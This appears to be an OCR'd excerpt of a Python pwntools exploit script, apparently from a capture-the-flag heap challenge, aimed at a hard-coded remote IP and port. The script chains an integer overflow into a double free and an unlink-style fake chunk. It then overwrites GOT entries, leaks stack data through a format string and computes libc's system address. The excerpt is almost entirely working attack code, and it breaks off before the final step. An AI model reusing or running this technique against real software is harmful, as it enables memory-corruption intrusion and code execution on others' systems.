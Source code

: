 ```
    conn.sendline('4')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('success')

conn = remote('115.28.27.103',9003)
free_got = p64(0x602018)
puts_got = p64(0x602020)
stack_got = p64(0x602038)
printf_got = p64(0x602030)
exit_got = p64(0x602078)
printf_plt = p64(0x400750)
puts_plt = p64(0x400730)

#libcstartmain_ret_off = 0x21b45
#sys_off = 0x414f0

libcstartmain_ret_off = 0x21ec5
sys_off = 0x46640

# 1. int overflow lead to double free
intoverflow = -9223372036854775808
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,p64(0x400ef8))
malloc(512,'/bin/sh\0')

# 2. make a fake chunk and modify the next chunk's pre size
fakechunk = p64(0) + p64(512+1) + p64(0x6020e0-0x18) + p64(0x6020e0-0x10) + 'A'*(512-32) + p64(512) + p64(512+16)
edit(3,'aaaaaa')
edit(intoverflow,fakechunk)

# 3. double free
free(4)

# 4. overwrite got
edit(3,free_got)
edit(0,printf_plt+printf_plt)

# 5. leak the stack data
edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)

# free->puts
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))

ret =  conn.recvuntil('success')
print ret

# 6. calcuate the system's addr
libcstart = ret.split('.')[10]
libcstart_2 = int(libcstart,16) - libcstartmain_ret_off
print 'libc start addr:',hex(libcstart_2)
system_addr = libcstart_2 + sys_off
print 'system_addr:',hex(system_addr)
```